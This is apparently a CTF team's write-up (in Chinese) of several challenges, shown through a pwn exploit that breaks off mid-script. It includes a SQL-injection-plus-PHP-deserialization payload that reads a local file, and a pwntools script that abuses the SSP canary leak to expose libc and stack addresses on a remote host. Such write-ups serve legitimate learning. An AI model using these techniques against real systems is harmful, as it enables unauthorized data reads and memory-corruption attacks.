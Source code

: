 Team: Lilac
---------
- [misc](#misc)
	- [签到](#签到)
	- [clip](#clip)
- [web](#web)
	- [facebook](#facebook)
- [pwn](#pwn)
    - [guess](#guess)
    - [blind](#blind)
- [reverse](#reverse)
	- [beijing](#beijing)
	- [blend](#blend)
	- [advanced](#advanced(solved-after-ctf))
- [crypto](#crypto)
	- [hashcoll](#hashcoll)
##misc
###签到
![Alt text](1534833478608.png)
###clip
- 对damaged.disk分析可知包含png图片,提取图片得到了两张图片.
- 修复png文件头, 对图片还原PS等,得到flag:
`flag{0b008070-eb72-4b99-abed-092075d72a40}`
##web
###facebook
利用点: **sql注入+反序列化+LFR**
payload:
```html
/view.php?no=0/*123*/UniOn/*123*/select/*123*/0,1,2,%22O:8:\%22UserInfo\%22:3:{s:4:\%22name\%22;s:5:\%22lilac\%22;s:3:\%22age\%22;i:0;s:4:\%22blog\%22;s:29:\%22file:///var/www/html/flag.php\%22;}%22
```
##pwn
###guess
- 程序把flag读在栈上，提供了栈溢出，但是有canary保护，看似没有其他漏洞了，很自然地想到了**ssp leak**，但是不知道栈地址。从程序提供3次输入机会想到可以先用got地址泄露libc，然后用libc上的environ泄露栈地址，然后算出得到的栈地址与flag的距离，最后拿flag，这个距离值是固定的，正好可以通过3次泄露完成。libc可以用各种工具拿到，测试时发现远程环境和本地相同.

```python
from pwn import *
'''
for i in range(0x80, 0x180, 8):
  p = process("./GUESS")
p.recvuntil("flag\n")
p.sendline("1" * i + p64(0x0400C90))
p.recvline()
x = p.recvline()
p.close()
print hex(i), x
'''
environ = 0x03C6F38
p = remote("106.75.90.160", 9999)
p.recvuntil("flag\n")
p.sendline("1" * 0x128 + p64(0x602040))
print p.recvuntil("***: ")
read_offset = u64(p.recv(6).ljust(8, "\x00"))
libc = read_offset - 0x00000000000F7250
environ += libc
print hex(libc)

p.recvuntil("flag\n")
p.sendline("1" * 0x128 + p64(environ))
print p.recvuntil("***: ")
stack = u64(p.recv(6).ljust(8, "\x00"))
print hex(stack)
```